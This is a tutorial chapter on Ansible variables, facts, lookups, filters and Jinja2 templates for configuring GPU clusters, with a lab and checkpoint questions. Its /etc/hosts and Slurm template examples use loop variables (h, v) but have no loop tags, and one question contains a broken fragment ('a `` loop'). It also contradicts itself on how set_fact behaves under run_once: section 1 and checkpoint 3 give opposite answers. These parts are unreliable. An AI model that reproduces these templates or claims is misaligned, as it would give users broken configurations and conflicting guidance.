

# 4.7 Ansible variables, facts, templates and filters

| | |
|---|---|
| Level | Intermediate |
| Priority tier | 0 |
| Lab venue | ansible-core; 2 to 3 Linux targets; (a GPU host helps for the custom-fact examples) |
| Part | Part 4: Automation and infrastructure as code |
| Status | Drafted, labs **untested** |

## Why this matters for AI infrastructure

One playbook has to configure heterogeneous machines: nodes with 8 or 4 GPUs, H100 or A100, ConnectX-7 or BlueField NICs, in different racks with different management subnets. The way you do that without writing a playbook per machine type is data: variables that describe intent, **facts** that describe what each host actually is, and **templates** that turn data into Slurm, NCCL, chrony, netplan or Prometheus configuration. Understanding where values come from (and which one wins) is the difference between a playbook that is correct on 1,000 nodes and one that is correct on your laptop.

## Prerequisites and outcomes

Needs 4.4 to 4.6. After this chapter you can:

- Define variables at the right layer (play, vars files, inventory, role defaults, extra vars) and read them safely with defaults, asserts and type conversion.
- Capture and use task results (`register`), `set_fact`, `include_vars`, `vars_prompt`, and understand variable scoping and lifetime.
- Use facts (`ansible_facts`), gather subsets, cache facts, write custom local facts (`facts.d`), and use magic variables (`hostvars`, `groups`, `group_names`, `inventory_hostname`, `play_hosts`).
- Use lookups (`env`, `file`, `template`, `pipe`, `url`, `password`, `vault`, `community.hashi_vault.hashi_vault`) and understand their execution location.
- Write templates with loops and filters to generate real configurations, and validate them.
- Debug variable and template problems quickly.

## 1. Defining variables

### Where and how

```yaml
- hosts: gpu
  vars:                              # play-level
    nvidia_driver_branch: 550
    nccl_env:
      debug: WARN
      ib_hca: "mlx5_0,mlx5_1"
  vars_files:
    - vars/common.yml
    - "vars/{{ ansible_facts['os_family'] | lower }}.yml"    # OS-specific variables chosen at runtime
  vars_prompt:                        # interactive; avoid in automation
    - name: reason
      prompt: "Maintenance reason"
      private: false
  tasks:
    - name: Use a variable
      ansible.builtin.debug:
        msg: "Driver branch {{ nvidia_driver_branch }}"
      vars:                           # task-level
        extra: 1
```

Other sources: inventory variables and `group_vars`/`host_vars` (4.5), role `defaults/` and `vars/` (4.11), `-e`/`--extra-vars` (`-e key=value`, `-e '{"k": [1,2]}'`, `-e @file.yml`), `set_fact`, `register`, `include_vars` (loads a file or directory at runtime into the host's variables), `lookup` results, and environment variables via `lookup('env', ...)`.

### Naming and types

- Names: letters, digits, underscores; must not start with a digit; avoid Python keywords and Ansible reserved names (`environment`, `name`, `hosts`, `tasks`, `connection`, `port`...). Prefix with the role or component (`slurm_`, `nvidia_`).
- Types follow YAML: strings, ints, floats, booleans, lists, dicts. Remember quoting rules (4.4): `nvidia_driver_branch: 550` is an int; `"550.90.07"` must be a string; `ansible_check_mode` and similar are booleans.
- Access: `{{ nccl_env.debug }}`, `{{ nccl_env['ib_hca'] }}`, `{{ list[0] }}`; use brackets when a key contains hyphens, spaces, or dots, or when a key name collides with a built-in Python dictionary method (`items`, `keys`, `values`, `copy`, `get`, `update`). As *Ansible: Up and Running* Chapter 5 highlights, if a dictionary has a key named `"values"`, writing `my_dict.values` returns Python's bound method `<built-in method values of dict object>` rather than the key's value—whereas subscript notation `my_dict['values']` always looks up the dictionary key reliably. Similarly, for `stat` module output (`AUR` Chapter 5 `Example 5-6`), all four forms `result['stat']['mode']`, `result['stat'].mode`, `result.stat['mode']`, and `result.stat.mode` work (`when: result.stat.exists and result.stat.isdir`), and strings can be concatenated inside a single `{{ ... }}` expression with the tilde operator `~` (`msg: "{{ 'The URL is https://' ~ server_name ~ '/index.html' }}"`).
- **Always provide a default or assertion for optional values:** `{{ optional_var | default('x') }}`, `{{ must_exist | mandatory }}`, or an `assert` at the top of a play/role (`that: [ rack is defined, gpu_count | int > 0 ]`) so failures are early and legible. Roles should validate inputs with an **argument spec** (`meta/argument_specs.yml`, 4.11).
- Type conversion: `| int`, `| float`, `| bool`, `| string`, `| list`; booleans in strings (`"yes"`, `"True"`) need `| bool`. Do not compare booleans to strings.

### Scope and lifetime

- Play/task `vars` are scoped to where they are defined. Inventory/group/host variables are per host for the whole run. `set_fact` and `register` create **host-scoped** variables that persist for the rest of the play run (and, with `cacheable: true` and fact caching, across runs).
- `set_fact` has the precedence of a task-level fact; registered variables behave similarly. They are set per host: a task with `run_once` sets the variable only on the host that ran it unless you distribute it (`delegate_facts` or `hostvars` iteration).
- `include_vars` loads variables at runtime (precedence above play vars); `vars_files` loads at play start.
- Variable names are not scoped by roles by default: variables set in one role are visible to later roles and tasks (a reason for prefixes).
- Because values are rendered lazily, a variable defined in terms of another (`b: "{{ a }}-x"`) is templated at the point of use, so you can define derived values in `group_vars` that reflect later overrides: powerful but can create recursion (`x: "{{ x }}"` errors).

## 2. Registered results and set_fact

```yaml
- name: Query driver version
  ansible.builtin.command: nvidia-smi --query-gpu=driver_version --format=csv,noheader
  register: drv
  changed_when: false

- name: Keep a clean value
  ansible.builtin.set_fact:
    current_driver: "{{ drv.stdout_lines[0] | trim }}"

- ansible.builtin.debug:
    var: drv                             # show the whole structure: rc, stdout, stdout_lines, stderr, changed, failed, start, end, delta, cmd
```

A registered variable always exists even if the task was skipped (with `skipped: true`), so test `drv is not skipped` / `drv is defined and drv.rc == 0` before use. Looped tasks register a `results` list (one entry per item). Use `failed_when`/`changed_when` expressions instead of ad-hoc post-processing.

`set_fact` guidelines: derive values once and reuse; do not use `set_fact` to emulate programming loops (use filters); mark expensive computed facts `cacheable: true` if you will reuse them across runs; avoid turning `set_fact` into hidden global state.

## 3. Facts

**Facts** are variables Ansible discovers about each host. The `setup` module (run by `gather_facts: true`) returns hundreds: distribution, kernel, CPU count, memory, mounts, network interfaces and addresses, DMI info, environment, date/time, SELinux, user, Python.

```bash
ansible gpu001 -m ansible.builtin.setup | less
ansible gpu001 -m ansible.builtin.setup -a 'filter=ansible_default_ipv4'
ansible gpu001 -m ansible.builtin.setup -a 'gather_subset=!all,!min,network,hardware'
```

Using facts:

```yaml
- name: Show key facts
  ansible.builtin.debug:
    msg: >-
      {{ inventory_hostname }}: {{ ansible_facts['distribution'] }} {{ ansible_facts['distribution_version'] }},
      kernel {{ ansible_facts['kernel'] }}, {{ ansible_facts['processor_vcpus'] }} vCPUs,
      {{ (ansible_facts['memtotal_mb'] / 1024) | round(1) }} GiB RAM,
      primary IP {{ ansible_facts['default_ipv4']['address'] }}
```

- The injected short names (`ansible_distribution`) are being de-emphasised: prefer `ansible_facts['distribution']` (the `ansible_facts` dict), enabled consistently and avoiding pollution of the variable namespace (`inject_facts_as_vars` setting).
- **Selecting facts**: `gather_subset` (`min`, `hardware`, `network`, `virtual`, `all`, negation with `!`), `gather_timeout`, `filter` in `setup`. Fact gathering costs seconds per host; for large fleets use `gathering = smart` with a cache (`fact_caching = jsonfile`/`redis`/`memcached`), or `gather_facts: false` and call `setup` with a small subset only where needed. `package_facts`, `service_facts`, `mount_facts` and `ansible.builtin.getent` gather additional state on demand.
- **Distribution branching**: `when: ansible_facts['os_family'] == 'Debian'`, `ansible_facts['distribution_major_version'] is version('9', '>=')`.
- **Hardware branching**: derive GPU data from probes (`nvidia-smi -L`, `lspci -d 10de:`, DCGM), not from `setup` alone; wrap them in a role that publishes facts like `gpu_count`, `gpu_model`, `nvlink_present`, `ib_hcas` for later plays and templates.

### Custom (local) facts

Any executable or `.fact` file in `/etc/ansible/facts.d/` on the target (INI or JSON, or an executable printing JSON) appears under `ansible_local.<name>` after fact gathering. This is the supported way for hosts to **declare their own attributes** (rack, role, hardware class) that persist independent of the control node.

```ini
# /etc/ansible/facts.d/site.fact
[location]
rack=r07
rail=3
```

```yaml
- name: Publish local fact
  ansible.builtin.copy:
    dest: /etc/ansible/facts.d/gpu.fact
    mode: "0755"
    content: |
      #!/bin/sh
      n=$(nvidia-smi -L 2>/dev/null | wc -l)
      echo "{\"count\": $n}"
- ansible.builtin.setup: { filter: ansible_local }
- ansible.builtin.debug: { msg: "{{ ansible_local.gpu.count }} GPUs on {{ inventory_hostname }}" }
```

### Magic variables

| Variable | Meaning |
|---|---|
| `inventory_hostname`, `inventory_hostname_short` | The host's name in inventory |
| `ansible_host`, `ansible_user`... | Connection variables |
| `groups` | Dict of group name to host list (`groups['gpu']`) |
| `group_names` | Groups the current host belongs to |
| `hostvars` | Dict of host to all of that host's variables and facts (`hostvars['slurmctl01']['ansible_default_ipv4']['address']`); only includes hosts whose facts were gathered earlier in the run for fact values |
| `play_hosts` / `ansible_play_hosts`, `ansible_play_batch` | Hosts in the current play / current serial batch |
| `ansible_play_name`, `ansible_check_mode`, `ansible_diff_mode`, `ansible_run_tags`, `ansible_limit` | Run metadata |
| `playbook_dir`, `role_path`, `inventory_dir` | Paths |
| `omit` | Special placeholder to drop a parameter |
| `ansible_version`, `ansible_python` | Controller details |

Cross-host data (e.g., all node addresses into `/etc/hosts`, Slurm config, or an HAProxy load-balancer `backend web-backend` block iterating ` server {{ host }} {{ hostvars[host].ansible_default_ipv4.address }}:80 ` as in `AUR` Chapter 5, modeled in `code/part04/ansible_variables_facts.py`) uses `hostvars` and `groups` (do not confuse the runtime magic dictionary **`hostvars`** with the on-disk directory **`host_vars/`**). The required facts must have been gathered for those hosts in this run (a prior play with `gather_facts`, or cached facts). A frequent bug: a play limited to one host (`--limit lb01`) templates a cluster-wide file using `hostvars` of hosts (`web1..3` or `gpu001..032`) whose facts were never gathered (empty/undefined values). Gather facts for the whole group first (`- hosts: cluster / gather_facts: true / tasks: []` with `tags: [always]`) or cache them.



## 4. Lookups

Lookups fetch data from outside the playbook **on the control node**, at templating time.

| Lookup | Use |
|---|---|
| `env` | `lookup('env', 'HOME')`; control-node environment |
| `file` | Read a local file's content (e.g., an SSH public key) |
| `template` | Render a local template to a string |
| `pipe` | Run a local command, return stdout (use sparingly; side effects on every evaluation) |
| `url` | Fetch a URL on the control node |
| `password` | Generate/persist a random password in a local file; `lookup('password', 'creds/db chars=ascii_letters,digits length=24')` |
| `community.hashi_vault.hashi_vault` | Read secrets from Vault |
| `ansible.builtin.vars` / `varnames` | Look up variables by name |
| `ansible.builtin.dict`, `items`, `subelements`, `together`, `nested`/`product`, `cartesian` | Build loops over structures |
| `ansible.builtin.first_found` | Pick the first existing file from a list (OS-specific vars) |
| `ansible.builtin.ini`, `csvfile`, `community.general.dig` (DNS), `community.general.random_pet` | Misc data sources |

`lookup()` returns a string (comma-joined) by default; `query()` (alias `q()`) always returns a list: prefer `query` for loops. Lookups run per evaluation: avoid expensive lookups inside loops, and remember they execute where Ansible runs, not on the targets (for target-side data use modules and `register`). `with_<lookup>:` loops are the legacy form of `loop:` plus lookup.

## 5. Loops over data

```yaml
- name: Create service accounts
  ansible.builtin.user:
    name: "{{ item.name }}"
    uid: "{{ item.uid }}"
    groups: "{{ item.groups | default([]) }}"
    shell: /bin/bash
  loop:
    - { name: slurm, uid: 990, groups: [] }
    - { name: munge, uid: 991 }
  loop_control:
    label: "{{ item.name }}"             # shorter output
    pause: 0
    index_var: idx

- name: Per-key iteration over a dict
  ansible.builtin.sysctl:
    name: "{{ item.key }}"
    value: "{{ item.value }}"
  loop: "{{ sysctl_settings | dict2items }}"

- name: Nested data
  ansible.builtin.debug:
    msg: "{{ item.0.name }} -> {{ item.1 }}"
  loop: "{{ users | subelements('keys') }}"
```

Use `loop` with filters (`dict2items`, `subelements`, `product`, `zip`, `flatten`, `batch`) in preference to hand-written logic; `until`/`retries` handle polling; avoid loops over hundreds of items when a single module call can take a list (`package: name: [a, b, c]` is one transaction, much faster than a loop).

## 6. Filters for configuration generation

Beyond Jinja2's builtins (4.4), Ansible provides filters you will use constantly:

| Need | Filter |
|---|---|
| Dict merge (recursive) | `base \| combine(override, recursive=True)` |
| List ↔ dict | `dict2items`, `items2dict`, `zip`, `zip_longest`, `product`, `permutations` |
| Set operations | `union`, `intersect`, `difference`, `symmetric_difference`, `unique` |
| Flatten/shape | `flatten`, `community.general.json_query` (JMESPath queries) |
| Regex | `regex_search`, `regex_findall`, `regex_replace('^(.*)\\.example\\.com$', '\\1')` |
| Paths | `basename`, `dirname`, `splitext` |
| Version | `is version('2.0', '>=')`, `ansible.builtin.version` |
| Hash/crypt | `hash('sha256')`, `password_hash('sha512', salt)`, `b64encode` |
| Serialise | `to_json`, `to_nice_json`, `to_yaml`, `to_nice_yaml`, `from_json`, `from_yaml` |
| IP/network | `ansible.utils.ipaddr`, `ipsubnet`, `ipmath`, `next_nth_usable`, `ansible.utils.cidr_merge`, `hwaddr` (needs `netaddr`) |
| Defaulting | `default`, `default(omit)`, `mandatory`, `ternary('a','b')` |
| Misc | `random`, `shuffle`, `human_readable`, `human_to_bytes`, `quote`, `comment`, `expanduser` |

Examples:

```jinja
{{ gpu_nodes | map('extract', hostvars, 'ansible_host') | list }}            {# list of addresses #}
{{ groups['gpu'] | map('extract', hostvars, 'rack') | unique | sort }}        {# racks in use #}
{{ (ansible_facts['memtotal_mb'] * 0.9) | int }}                              {# Slurm RealMemory ~90% #}
{{ base_cfg | combine({'log_level': 'debug'}, recursive=True) }}
{{ '10.1.0.0/24' | ansible.utils.ipaddr('10') }}                              {# 10th address: 10.1.0.10/24 #}
{{ (item.size | human_to_bytes) // (1024**3) }}                               {# GiB #}
{{ is_prod | ternary('warn', 'debug') }}
```

`extract` is an essential filter for projecting a hostvar across many hosts.

## 7. Templates in practice

Use the `ansible.builtin.template` module to render `.j2` files from the role's `templates/` directory (or any path):

```yaml
- name: Render slurm.conf
  ansible.builtin.template:
    src: slurm.conf.j2
    dest: /etc/slurm/slurm.conf
    owner: slurm
    group: slurm
    mode: "0644"
    backup: true                          # keep a timestamped copy when changed
    validate: "slurmd -f %s -C"           # example: validate before replacing (check the tool's actual option support)
  notify: Reload slurmctld
```

### Example 1: /etc/hosts for the cluster

```jinja
# {{ ansible_managed }}
127.0.0.1 localhost

{{ hostvars[h]['ansible_host'] }} {{ h }}.{{ cluster_domain }} {{ h }}

```

### Example 2: Slurm node and GRES configuration derived from data

```jinja
# {{ ansible_managed }}
ClusterName={{ slurm_cluster_name }}
SlurmctldHost={{ groups['slurm_controller'][0] }}


NodeName={{ h }} NodeAddr={{ v.ansible_host }} CPUs={{ v.ansible_facts.processor_vcpus }} Boards=1 SocketsPerBoard={{ v.sockets | default(2) }} CoresPerSocket={{ v.cores_per_socket | default(48) }} ThreadsPerCore=1 RealMemory={{ (v.ansible_facts.memtotal_mb * 0.95) | int }} Gres=gpu:{{ v.gpu_model | default('h100') }}:{{ v.gpu_count | default(8) }} State=UNKNOWN

PartitionName=gpu Nodes={{ groups['gpu'] | sort | join(',') }} Default=YES MaxTime=INFINITE State=UP
```

(Compress ranges with Slurm's hostlist syntax such as `gpu[001-032]` for large clusters, via a custom filter or a pre-computed variable.)

### Example 3: Prometheus file_sd targets

```jinja
{# rendered to /etc/prometheus/targets/gpu.json on the monitoring host #}
{{ [{'targets': groups['gpu'] | map('extract', hostvars, 'ansible_host') | map('regex_replace', '$', ':9400') | list,
     'labels': {'job': 'dcgm', 'cluster': cluster_name}}] | to_nice_json }}
```

### Example 4: YAML output from data

Render complex YAML with `to_nice_yaml` rather than hand-indenting: `{{ k8s_values | to_nice_yaml(indent=2) | indent(4) }}`. Validate the result (`yamllint`, `kubeconform`).

### Good template practice

- Keep logic simple; precompute data with `set_fact` or filters before the template; put long expressions in variables.
- Always render with `--check --diff` first; use `validate:` for configs with a syntax checker (`nginx -t -c %s`, `visudo -cf %s`, `named-checkconf %s`).
- Include `{{ ansible_managed }}` so humans know not to edit the generated file.
- Avoid volatile values; sort lists and dict keys (`| sort`, `dictsort`) so renders are deterministic and do not flap handlers.
- Preserve ownership and modes; for secrets set `0600`, `no_log: true`, `diff: false`.
- Keep a template test: render with fixtures in CI and compare to a golden file (3.9).

## 8. Variable precedence debugging toolkit

```bash
ansible-inventory -i inventories/prod --host gpu001 --yaml          # merged inventory-level vars
ansible gpu001 -i inventories/prod -m ansible.builtin.debug -a 'var=nvidia_driver_branch'
ansible-playbook site.yml -l gpu001 -e '' -vvv --tags never --list-tasks   # check what is loaded (with -vvv shows vars files)
grep -rn "nvidia_driver_branch" inventories roles playbooks            # find every definition
```

Inside a play: `debug: var=vars['nvidia_driver_branch']`, `debug: msg="{{ hostvars[inventory_hostname] | dict2items | selectattr('key','match','^nvidia_') | list }}"`. Remember the order summarised in 4.5; the most common surprises are role `vars/` overriding inventory, `-e` overriding everything, `set_fact` persisting for later plays, dictionary replacement instead of merge, and two sibling groups defining the same name.

## 9. Security of variables and templates

- Secrets: Vault-encrypt files or fetch from a secret manager at runtime (4.12); set `no_log: true` on tasks handling them; remember that registered results and `-vvv` output can leak them; `diff: false` for rendered secret files.
- `lookup('pipe')` and `shell` with interpolated variables are injection vectors; quote with `| quote`.
- Facts and registered output from targets are **untrusted data** (a compromised host can return anything); Ansible marks some values unsafe to avoid re-templating; do not strip that marking.
- Beware templating strings that came from untrusted users (template injection) and avoid `!unsafe` removal.

## 10. Lab

First, run the self-checking Python lab (`code/part04/ansible_variables_facts_lab.py`) locally. It verifies INI and JSON `/etc/ansible/facts.d/*.fact` parsing into `ansible_local` (`parse_local_fact_file`, `AUR` Ch. 5), cross-host `groups` + `hostvars` projection (`project_group_hostvars` and `render_haproxy_backend_from_groups`, including failing fast when target host facts were not gathered), and `dict2items` / `items2dict` transformations (`dict2items_and_items2dict_roundtrip`).

```bash
python3 code/part04/ansible_variables_facts_lab.py
```

Next, on a control node with 2–3 Linux targets (all interactive shell steps below are `untested here`), work through these exercises:

1. **Variable layers**: define one variable in role defaults, `group_vars/all`, `group_vars/gpu`, `host_vars`, play vars, `set_fact` and `-e`; predict, run, and record the winner at each stage; place a dict across two layers and use `combine`.
2. **Register and conditions**: capture `nvidia-smi` output (or a fake script) with `register`; branch on `rc`, `stdout`, `stdout_lines`; show behaviour of a skipped registered task and of looped `results`.
3. **Facts**: dump `setup`; filter subsets; compare run time with and without `gather_facts`, with `gather_subset=min`, and with a JSON file cache.
4. **Custom facts**: deploy `site.fact` and a script fact; read `ansible_local` in the next task; show that facts persist on the host.
5. **Magic variables**: render a cluster-wide `/etc/hosts` with `hostvars`/`groups`; reproduce the "facts not gathered" bug by limiting the play to one host, then fix with a gather play or cache.
6. **Lookups**: use `env`, `file`, `password` (persisted), `first_found` for OS-specific vars; compare `lookup` and `query` returns in a loop.
7. **Loops and filters**: create users from a list of dicts; generate sysctls from a dict; use `subelements`, `product`, `batch`; build a list of GPU node IPs with `map('extract', hostvars, ...)`.
8. **Templates**: write the hosts, Slurm and Prometheus targets templates; make the output deterministic; use `validate:`; show `--diff` and handler behaviour when only ordering changes (then sort to fix).
9. **Types and quoting**: reproduce a boolean-as-string bug and an unquoted `{{` YAML error; fix with `| bool` and quoting.
10. **Argument validation**: add an `assert` and, for a role, an `argument_specs.yml`; verify the failure message for a missing variable.
11. **Debug drill**: have a colleague (or yourself) plant a conflicting variable in three layers; find it with the toolkit in under five minutes.
12. **Clean up.**

## 11. Common mistakes

- Using variables without defaults or validation; discovering missing values mid-fleet.
- Putting overridable settings in role `vars/` or using `-e` as the normal way to configure.
- Treating `set_fact` as global assignment; forgetting host scope and `run_once` behaviour.
- Cross-host templates relying on `hostvars` facts that were never gathered.
- Gathering all facts everywhere on huge fleets; or disabling facts and then using `ansible_*` variables.
- Using the old injected fact names inconsistently; mixing `ansible_distribution` and `ansible_facts[...]`.
- Non-deterministic template output (unsorted dicts/sets, timestamps) causing handler restarts.
- Booleans as strings; version strings parsed as floats.
- Complex Jinja in YAML where a small module, filter plugin or precomputed variable would be clearer.
- Secrets in `debug` output or registered variables printed at `-v`.

## 12. Interview angles

- "Where do you define variables and what wins?" (precedence summary; role defaults, group_vars, host_vars, extra vars.)
- "What are facts? How do you speed up fact gathering? How would you add custom facts?"
- "How do you generate per-node configuration (Slurm, /etc/hosts, Prometheus targets) from inventory?"
- "What is `hostvars` and when does it break?"
- "`register` vs `set_fact`; scope and lifetime?"
- "`lookup` vs `query`; where do lookups run?"
- "How do you merge dictionaries from several layers?" (`combine`.)
- "How do you validate a rendered configuration before it replaces the live one?"
- "How do you keep secrets out of logs and diffs?"

## Exercises

1. **Variable Naming, Subscript `['key']` vs. Dot `.key` Access, Scope, and Lazy Evaluation (`AUR` Chapter 5):** (a) State the rules for valid Ansible variable names and explain why `result['stat']['mode']` (subscript notation) is safer than `result.stat.mode` (dot notation) when a dictionary contains keys like `values`, `items`, or `copy` or keys with hyphens/dots; (b) contrast the scope and lifetime of task `vars:`, `vars_files:`, `include_vars`, `register`, and `set_fact` (`cacheable: true`).
2. **Registered Variables (`register`), Skipped Tasks, and Loop `results` (`AUR` Chapter 5):** (a) Trace the dictionary structure stored by `register: drv` (`rc`, `stdout`, `stdout_lines`, `stderr`, `changed`, `failed`) and `stat` (`result.stat.exists`, `result.stat.isdir`, `result.stat.mode`); (b) explain what happens to a registered variable when its task is skipped due to `when: false` (`drv is skipped`), and how `register` behaves on a task with `loop:`.
3. **Host Facts (`setup`, `ansible_facts`), `gather_subset`, Fact Caching, and Custom Local Facts (`/etc/ansible/facts.d/*.fact`, `AUR` Chapter 5):** Using `parse_local_fact_file()` in `code/part04/ansible_variables_facts.py`, explain: (a) why `ansible_facts['distribution']` is preferred over legacy injected `ansible_distribution` variables and how `gather_subset` and `fact_caching = jsonfile` speed up large runs; and (b) how both INI (`example.fact`) and executable JSON (`gpu.fact`) files in `/etc/ansible/facts.d/` populate `ansible_local`.
4. **Magic Variables (`hostvars`, `groups`, `group_names`, `inventory_hostname`, `ansible_play_batch`) and the `--limit` Missing-Facts Trap (`AUR` Chapter 5):** Using `project_group_hostvars()` and `render_haproxy_backend_from_groups()` in `code/part04/ansible_variables_facts.py`, explain the difference between `hostvars` and `host_vars/`, show how a template iterates `groups['web']` or `groups['gpu']` to render HAProxy / `/etc/hosts` / `slurm.conf`, and explain how to fix the missing-facts bug when running with `--limit`.
5. **Control-Node Lookups (`lookup` vs. `query`, `env`, `file`, `password`, `first_found`, `hashi_vault`) and Loop Control (`loop_control`, `dict2items`, `subelements`):** Using `dict2items_and_items2dict_roundtrip()`, explain: (a) where lookups execute, how `lookup()` and `query()` (`q()`) differ, and how `lookup('password', ...)` and `first_found` work; and (b) why `package: name: [a, b, c]` is faster than `loop: [a, b, c]` and how `loop_control: { label: "{{ item.name }}" }` keeps logs clean and prevents secret leaks.
6. **Configuration Generation Filters (`extract`, `combine`, `json_query`, `ipaddr`, `to_nice_json` / `to_nice_yaml`) and Deterministic Templates:** Write the filter pipeline that extracts `ansible_host` across `groups['gpu']`, appends `:9400`, and renders a deterministic Prometheus `file_sd` JSON file, and explain how sorting (`| sort`, `dictsort`) prevents spurious handler restarts.

## Checkpoint questions (20)

<details>
<summary>1. Why is subscript notation (`result['stat']['mode']` or `d['values']`) safer than dot notation (`d.values`) when accessing dictionaries in Ansible (`AUR` Chapter 5)?</summary>

In Jinja2 and Ansible, dot notation (`d.key`) checks for **Python object attributes and methods** or dictionary keys. When a dictionary has a key whose name collides with a built-in Python `dict` method—such as **`values`**, **`items`**, **`keys`**, **`get`**, **`copy`**, or **`update`**—writing `d.values` returns the Python method object `<built-in method values of dict object>` instead of your data (and keys containing hyphens, dots, or spaces like `eth0.100` or `ens3-1` are syntax errors under dot notation). Subscript notation **`d['values']`** always looks up the dictionary key unambiguously.
</details>

<details>
<summary>2. What is the difference between `register` and `set_fact` in terms of purpose, structure, and persistence?</summary>

- **`register: var_name`** captures the **entire return dictionary** of a task execution (`rc`, `stdout`, `stdout_lines`, `stderr`, `changed`, `failed`, `skipped`, or `results` list when used with `loop:`). Even if a task is skipped because its `when:` condition is false, `register` still binds `var_name` to `{"changed": false, "skipped": true}`.
- **`ansible.builtin.set_fact`** computes and assigns a clean, custom host-scoped variable (`current_driver: "{{ drv.stdout_lines[0] | trim }}"`) that persists across all remaining plays in the playbook run—and if **`cacheable: true`** is set on `set_fact` with fact caching enabled in `ansible.cfg`, the computed fact is also written to the fact cache (`ansible_facts`) for future runs.
</details>

<details>
<summary>3. What Happens when `set_fact` or `register` is used on a task with `run_once: true`?</summary>

Both `set_fact` and `register` store variables in the `hostvars` of the host(s) that actually executed the task. When **`run_once: true`** is set on a task, the task executes only on the **first host in the batch** (`ansible_play_batch[0]`)—however, as a special convenience in Ansible, `set_fact` and `register` on a `run_once: true` task **automatically copy the registered/fact value to all hosts in the current play batch** (unless `delegate_to` and `delegate_facts: true` are combined, which assigns the fact solely to the delegated host).
</details>

<details>
<summary>4. Why should modern playbooks use `ansible_facts['distribution']` instead of the top-level variable `ansible_distribution`?</summary>

Historically, Ansible injected every gathered fact as a top-level `ansible_*` variable (`ansible_distribution`, `ansible_kernel`, `ansible_os_family`), polluting the global variable namespace and allowing a compromised remote host returning custom facts to collide with connection/configuration variables. Accessing facts through the **`ansible_facts` dictionary** (`ansible_facts['distribution']`, `ansible_facts['default_ipv4']['address']`) namespaces all discovered host data cleanly and works when `inject_facts_as_vars = False` is set in `ansible.cfg`.
</details>

<details>
<summary>5. How do Custom Local Facts in `/etc/ansible/facts.d/*.fact` work (`AUR` Chapter 5 `Example 5-10`)?</summary>

During the `setup` fact-gathering step, Ansible inspects **`/etc/ansible/facts.d/`** on the target host for any file ending in **`.fact`**:
- If the file is **non-executable**, Ansible parses it as **INI** (e.g., `/etc/ansible/facts.d/example.fact` with `[book]\ntitle=Ansible: Up and Running`) or **JSON**.
- If the file is **executable (`chmod 0755`)**, Ansible runs it on the target and parses its **`stdout` as JSON** (e.g., `/etc/ansible/facts.d/gpu.fact` printing `{"count": 8}`).
The resulting dictionary is exposed under **`ansible_local.<filename_without_ext>`** (`ansible_local.example.book.title` or `ansible_local.gpu.count`, and `ansible_facts['ansible_local']`).
</details>

<details>
<summary>6. What is the difference between `hostvars` and `host_vars/`, and how do `groups` and `hostvars` work together in cross-host templates (`AUR` Chapter 5)?</summary>

- **`host_vars/`** (with an underscore) is an **on-disk directory** in your repository holding static per-host YAML variable files (`inventories/prod/host_vars/gpu001.yml`).
- **`hostvars`** (no underscore) is a **runtime magic dictionary** in memory mapping every hostname in the inventory to all of its resolved variables and gathered facts (`hostvars['db.example.com']['ansible_default_ipv4']['address']`).
To render a load-balancer (`haproxy.cfg`), `/etc/hosts`, or `slurm.conf` template that needs the IP addresses and hardware facts of every node in a group, iterate over **`groups['gpu']`** and index into **`hostvars[h]`**:
`{{ hostvars[h]['ansible_host'] }} {{ h }}`.
</details>

<details>
<summary>7. Why does a template using `hostvars[h]['ansible_facts']['processor_vcpus']` fail with an `UndefinedError` when you run `ansible-playbook site.yml --limit slurmctl01`, and how do you fix it?</summary>

When you pass `--limit slurmctl01`, Ansible runs the play (including `gather_facts: true`) **only on `slurmctl01`**. Therefore, `hostvars['gpu001']` contains `gpu001`'s static inventory variables (`ansible_host`), **but none of `gpu001`'s runtime `ansible_facts`** because `setup` never ran on `gpu001`. Fix it in one of two ways:
1. Enable **fact caching** (`gathering = smart`, `fact_caching = jsonfile`) so `hostvars` loads cached facts for all hosts, or
2. Put a dedicated fact-gathering play at the top of `site.yml` (`- hosts: cluster / gather_facts: true / tasks: []`) or delegate fact gathering across `groups['gpu']` via `setup` with `delegate_to: "{{ item }}"` and `delegate_facts: true`.
</details>

<details>
<summary>8. Where do Ansible Lookups (`lookup`, `query`) execute, and how do `lookup()` and `query()` (`q()`) differ?</summary>

**All lookups execute on the Ansible control node** (never on the remote target hosts) at the moment the Jinja2 expression is templated.
- **`lookup('file', 'a.txt', 'b.txt')`**: returns a comma-separated **string** by default (unless `wantlist=True` is passed).
- **`query('file', 'a.txt', 'b.txt')` (or `q(...)`)**: always returns a **Python `list`**, making `query()` the safer choice when feeding a lookup into `loop:`.
</details>

<details>
<summary>9. How does `lookup('password', ...)` work for idempotent credential generation?</summary>

`lookup('password', 'credentials/mysql_pass chars=ascii_letters,digits length=24')` checks whether the local file `credentials/mysql_pass` exists on the control node: if it does **not** exist, Ansible generates a random 24-character password and writes it to that file; on all subsequent runs, it reads and returns the existing password from the file—making random password generation idempotent across playbook runs (store the generated directory in Vault or a secure local path).
</details>

<details>
<summary>10. Compare loading OS-specific variables via `vars_files` with `ansible.builtin.first_found`.</summary>

- **`vars_files: ["vars/{{ ansible_facts['os_family'] | lower }}.yml"]`**: loads `vars/debian.yml` or `vars/redhat.yml` once facts are gathered.
- **`include_vars: "{{ lookup('ansible.builtin.first_found', params) }}"`**: searches an ordered list of candidate files from most specific to least specific—e.g., `["{{ ansible_facts['distribution'] }}-{{ ansible_facts['distribution_version'] }}.yml", "{{ ansible_facts['os_family'] }}.yml", "default.yml"]`—and loads the **first file that exists**, gracefully falling back to `default.yml` on unfamiliar distributions.
</details>

<details>
<summary>11. How does the `extract` filter (`map('extract', hostvars, ...)`) project attributes across a group of hosts without writing a `` loop?</summary>

Given a list of hostnames `groups['gpu']` (`['gpu001', 'gpu002']`), piping it into **`map('extract', hostvars, 'ansible_host') | list`** looks up `hostvars[h]['ansible_host']` for each hostname `h` and returns `['10.1.10.1', '10.1.10.2']`. For nested facts like `hostvars[h]['ansible_facts']['default_ipv4']['address']`, pass a list of path keys as the third argument:
`groups['gpu'] | map('extract', hostvars, ['ansible_facts', 'default_ipv4', 'address']) | list`.
</details>

<details>
<summary>12. How do `dict2items`, `items2dict`, and `subelements` transform data structures for `loop:`?</summary>

